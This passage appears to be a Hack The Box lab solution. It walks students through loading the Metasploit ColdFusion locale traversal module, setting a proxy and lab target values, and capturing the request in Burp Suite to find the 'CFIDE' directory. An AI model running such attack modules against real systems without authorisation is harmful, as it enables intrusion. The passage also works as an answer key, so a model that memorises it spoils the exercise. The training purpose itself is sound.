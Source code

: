 Code: shell

```shell
use auxiliary/scanner/http/coldfusion_locale_traversal
```

```
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/http/coldfusion_locale_traversal
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >>
```

Then students need to set `PROXIES` to be the same as the one `Burp Suite`/`ZAP` listens on, while for `RHOST` and `RPORT` any random valid values can be used:

Code: shell

```shell
set PROXIES HTTP:127.0.0.1:8080
set RHOST STMIP
set RPORT STMPO
```

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set PROXIES HTTP:127.0.0.1:8080

PROXIES => HTTP:127.0.0.1:8080
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set RHOSTS 159.65.63.151
RHOSTS => 159.65.63.151
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/coldfusion_locale_traversal) >> set RPORT 31845
RPORT => 31845
```

Before running the exploit, students need to make sure that `Burp Suite`/`ZAP` are intercepting requests, and then run the exploit:

Code: shell

```shell
run
```

```
auxiliary(scanner/http/coldfusion_locale_traversal) >> run
```

From the intercepted request, students will know that the directory the `msfconsole` module is sending a request to is `CFIDE`:

![[HTB Solutions/CPTS/z. images/2bc110c72c96b2e075eb228353c4b460_MD5.jpg]]

Answer: `CFIDE`